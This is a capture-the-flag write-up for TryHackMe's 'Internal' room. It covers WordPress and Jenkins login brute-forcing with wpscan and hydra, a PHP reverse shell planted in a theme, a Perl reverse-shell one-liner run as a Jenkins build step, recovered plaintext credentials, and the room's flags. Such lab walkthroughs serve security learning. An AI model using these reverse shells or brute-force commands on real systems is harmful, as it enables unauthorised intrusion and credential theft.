**Date:** February 9th 2022

**Author:** j.info

**Link:** [**Internal**](https://tryhackme.com/room/internal) CTF on TryHackMe.

**TryHackMe Difficulty Rating:** Hard

<br>

## Objectives
- user.txt flag
- root.txt flag

<br>

## Initial Enumeration

<br>

### Nmap Scan

`nmap -sC -sV -A -T4 10.10.222.234`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
```


So we have a website and ssh open. Let's see what we can find on the website.

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.222.234 -t 50 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 10918]
/blog                 (Status: 200) [Size: 53942]
/javascript           (Status: 403) [Size: 278]  
/phpmyadmin           (Status: 200) [Size: 10531]
/server-status        (Status: 403) [Size: 278]
```

<br>

## Website Digging

I visit the main page and it just shows a default unconfigured site:

<br>



<br>

I check out the **/blog** site found with the **gobuster** scan and:

<br>



<br>

Not displaying correctly at all. I hover over a link and notice it's pointing to an **http://internal.thm/** link. I modify my /etc/hosts to include that and point it to the machines IP address and reload the page, which now displays proprely:

<br>



<br>

**Wappalyzer** shows us that

- It's a Wordpress 5.4.2 site
- It's running on Apache 2.4.29
- There is a MySQL database
- The underlying OS is Ubuntu

<br>

I run another **gobuster** scan on the blog directory since it's looking like that's where the content will actually be:

`gobuster dir -u http://internal.thm/blog -t 50 -r -x php,txt,html -w dir-med.txt`

```
/wp-content           (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 53892]
/wp-login.php         (Status: 200) [Size: 4530] 
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 403) [Size: 277]  
/readme.html          (Status: 200) [Size: 7278] 
/wp-trackback.php     (Status: 200) [Size: 135]  
/wp-admin             (Status: 200) [Size: 4530] 
/xmlrpc.php           (Status: 405) [Size: 42]   
/wp-signup.php        (Status: 200) [Size: 4672]
```

We'll go through those in a minute but for now I want to run a quick **sqlmap** scan since there are fields we can input text into. I navigate to one of the blog posts that allows the user to add comments to the post and scan it:

`sqlmap --url http://internal.thm/blog/index.php/2020/08/03/hello-world/ --dbs --forms --crawl=2`

```
[10:32:36] [ERROR] all tested parameters do not appear to be injectable.
```

No luck there. Looking around the website all of the blog posts are by the **admin** user so I decided to try and brute force it with **wpscan**.

`wpscan --url http://internal.thm/blog --usernames admin --passwords rockyou.txt --max-threads 50`

After not long at all we have success:

```
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

<br>



<br>

Looking around the admin panel I find something in the **Posts** section:

<br>



<br>

Opening it up:

<br>



<br>

Since we're allowed to edit the theme's php code while logged in as an admin it's time to get a reverse shell going.

<br>

## Getting a Shell

I edit the main index template theme (index.php) and add the standard **pentestmonkey** reverse php shell code to it and save the file

<br>



<br>

I start a `nc -nvlp 4444` listener up on my system to catch the call back from the website. After that's taken care of I navigate back over to the main **http://internal.thm/blog/** site and get a shell back:

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.65.114] 36436
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:40:11 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Let's make this an interactive shell:

`python -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

Background the shell and:

`stty raw -echo; fg`

Much better. A `whoami` shows that we're the default **www-data** user:

```
www-data@internal:/$ whoami
www-data
```

I take a quick look in the **/home** directory to see which users are out there but cannot access the one user who does show up:

```
ww-data@internal:/$ cd /home
www-data@internal:/home$ ls
aubreanna
www-data@internal:/home$ cd aubreanna/
bash: cd: aubreanna/: Permission denied
```

<br>

## System Enumeration

I transfer over **linPEAS** via a python http.server adn then wget the file onto the system and make it executable:

`python3 -m http.server 80`

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.65.114 - - [09/Feb/2022 11:43:23] "GET /linpeas.sh HTTP/1.1" 200 -
```

`chmod +x linpeas.sh`

The system is vulnerable to **pwnkit** but since this box was created before that vulnerability was discovered I don't feel like using it accomplishes anything in the learning department and skip that.

The only users with a shell are the **aubreanna** we saw earlier and **root**. And `id aubreanna` shows:

```
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
```

So no `sudo -l` for us this round.

**linPEAS** is able to find credentials to a **MySQL** database as well as the **phpmyadmin** site:

```
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'wordpress123' );

$dbpass='B2Ud4fEOZmVq';
$dbuser='phpmyadmin';
```

<br>

## Database Digging

Let's see what we can find in those databases. I start with **phpmyadmin** and login with the credentials we found:

<br>



<br>

I look through the database and it's empty with nothing in it.

<br>

Moving on to **MySQL** I login with the credentials we found by running:

`mysql -h localhost -D wordpress -u wordpress -p`

I then dig around for the users list to see if we can get any other credentials:

- show databases;
- use wordpress;
- show tables;
- select * from wp_users;

We get the admin user but it's the same thing we already have:

```
+----+------------+------------------------------------+
| ID | user_login | user_pass                          |
+----+------------+------------------------------------+
|  1 | admin      | $P$BOFWK.UcwNR/tV/nZZvSA6j3bz/WIp/ |
+----+------------+------------------------------------+
```

Seems like the databases are a dead end.

<br>

## Further System Digging

I'll admit at this point I hit a bit of a wall and just continued digging around the box before eventually stumbling on a file in the **/opt** directory that provides further credentials:

```
www-data@internal:/tmp$ cd /opt
www-data@internal:/opt$ ls
containerd  wp-save.txt
www-data@internal:/opt$ ls -al
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

<br>

## aubreanna

I ssh over and am able to login as **aubreanna**

I run a quick `sudo -l` with no luck:

```
aubreanna@internal:~$ sudo -l
[sudo] password for aubreanna: 
Sorry, user aubreanna may not run sudo on internal.
```

We are able to get the first flag though!

```
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
THM{int3rna1_fl4g_1}
```

We also have a file called **jenkins.txt** with the following inside:

```
Internal Jenkins service is running on 172.17.0.2:8080
```

I dig around the system a bit more as **aubreanna** and don't find anythign additional. Let's check out that Jenkins instance.

<br>

## Jenkins

In order to connect to the **Jenkins** instance we'll have to start up an ssh tunnel on our home system:

`ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.65.114`

I open up the site in my browser by going to:

```
127.0.0.1:8080/
```

and try to login as **aubreanna** and **admin** with no luck.

I run another **gobuster** scan on the Jenkins site to see what's out there:

`gobuster dir -u http://127.0.0.1:8080 -t 50 -r -b 403 -x php,txt,html -w dir-med.txt`

And get back a lot of results but almost everything is not accessable. We're left with:

```
/login                (Status: 200) [Size: 2005]
/robots.txt           (Status: 200) [Size: 71]
/oops                 (Status: 200) [Size: 6348]
```

**robots.txt** doesn't provide anything useful.

Navigating to the **/oops** directory does provide us with the Jenkins version:

```
Jenkins version 2.250
```

I check around for exploits on that version of Jenkins and don't find much. I think it's time to try brute forcing the login page here like we did previously on the WordPress site.

I start up a **hydra** attack with the following:

`hydra -l admin -P rockyou.txt -s 8080 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:F=Invalid username or password" -V -f`

And in less than a minute get back a successful result!

```
[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

With that I head back to the login page and login:

<br>



<br>

There are a couple different **Jenkins** exploits I know but we'll be using the build method here to get a shell.

From the main menu click on **New Item** to create a new build.

Then name it something, select **Freestyle project** and then click **OK**.

<br>



<br>

From there you scroll down to the **Build** section and click **Add build step** then choose **Execute shell**.

<br>



<br>

Over on [**https://www.revshells.com/**](https://www.revshells.com/) you can find code for a **Perl** reverse shell that will work nicely here:

```
perl -e 'use Socket;$i="<MY IP>";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

<br>



<br>

Once you've added the shell code click on save which will bring you back to the main project page you created.

Set up your listener with `nc -nvlp 4444` and then back on the Jenkins page click the **Build Now** button on the left menu which should give you a shell:

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.86.6] 57220
sh: 0: can't access tty; job control turned off
$ whoami
jenkins
$ hostname
jenkins
```

<br>

## Another Shell

I upgrade my shell to an interactive one like we did earlier on the first shell.

I look around the filesystem and quickly realize this isn't a standard setup. There are no users in the **/home** directory and the root of the file system contains a file called **.dockerenv** so it looks like we're inside of a container. Running this also confirms that:

`cat /proc/self/cgroup`

```
12:blkio:/docker/7b979a7af7785217d1c5a58e7296fb7aaed912c61181af6d8467c062151e7fb2
11:freezer:/docker/7b979a7af7785217d1c5a58e7296fb7aaed912c61181af6d8467c062151e7fb2
```

As with before I look around the system and again find something in the **/opt** directory:

```
jenkins@jenkins:/opt$ cd /opt
jenkins@jenkins:/opt$ ls -al
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
jenkins@jenkins:/opt$ cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

Well that certain looks promising!

<br>

## Root

Still logged in to the **aubreanna** account from when I set up the ssh tunnel earlier I run a `su root`:

```
aubreanna@internal:~$ su root
Password: 
root@internal:/home/aubreanna# whoami
root
```

Let's get our final flag!

```
root@internal:/home/aubreanna# cd /root
root@internal:~# ls
root.txt  snap
root@internal:~# cat root.txt
THM{d0ck3r_d3str0y3r}
```

<br>

Another one down. This one had a lot going on in it and was a good challenge.

<br>



<br>

## Conclusion

A quick run down of what we covered in this CTF:
- Basic system and website enumeration with **nmap** and **gobuster**
- Checking for SQLi using **sqlmap**
- Using **wpscan** to brute force a WordPress site
- Editing a WordPress theme to include reverse shell code
- Upgrading shells to interactive mode
- Scanning a system with **linPEAS**
- Looking at databases with **phpmyadmin**
- Looking at **MySQL** databases
- Manual investigation of the filesystem
- Using ssh tunneling to access an internal resource on a remote system
- Brute forcing a website login with **hydra**
- Exploiting **Jenkins** by configuring builds to run reverse shell code

<br>

Many thanks to:
- [**TheMayor**](https://tryhackme.com/p/TheMayor) for creating this CTF.
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)